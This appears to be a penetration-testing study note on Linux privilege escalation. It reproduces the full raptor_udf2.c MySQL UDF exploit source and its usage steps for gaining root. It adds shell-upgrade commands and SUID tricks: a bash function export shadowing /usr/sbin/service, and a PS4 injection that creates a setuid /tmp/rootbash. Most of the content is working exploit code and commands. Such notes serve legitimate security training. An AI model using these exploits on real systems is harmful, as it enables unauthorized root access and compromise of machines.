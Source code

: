 
```C
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work 
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol 
 * that corresponds to the main xxx() function. These auxiliary symbols 
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and 
 * xxx_add() functions". -- User Defined Functions Security Precautions 
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

```

**User Defined Functions**

- To upgrade a shell to full terminal we use the following commands:
```bash
python -c 'import pty;pty.spawn("/bin/bash");' 
CTRL + Z #backgrounds netcat session 
stty raw -echo 
fg #brings netcat session back to the foreground 
export TERM=xterm
```

- To check where we need to run our compiled code from we use the following command inside mysql
```mysql
SHOW VARIABLES LIKE 'PLUGIN_DIR';
```

- To create a UDF in MYSQL we use the following command:
```mysql
create function {function-name} return {return-type} soname '{lib}.so'
```

*Note*: The shared library must be located in the directory returned from the previous command


### SUID / SGID Executables - Abusing Shell Features

- In Bash versions **<4.2-048** it's possible to define shell functions. For example we can define a function as follows:
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

- When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging purposes. To enable debugging mode we use the command `env -i SHELLOPTS=xtrace`. The above command uses debug mode + **PS4** variable to create a SUID version of /bin/bash:
```
env -i SHELLOPTS=xtrace PS4='$( cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
We can then enter sudo mode using the command `/tmp/rootbash -p`
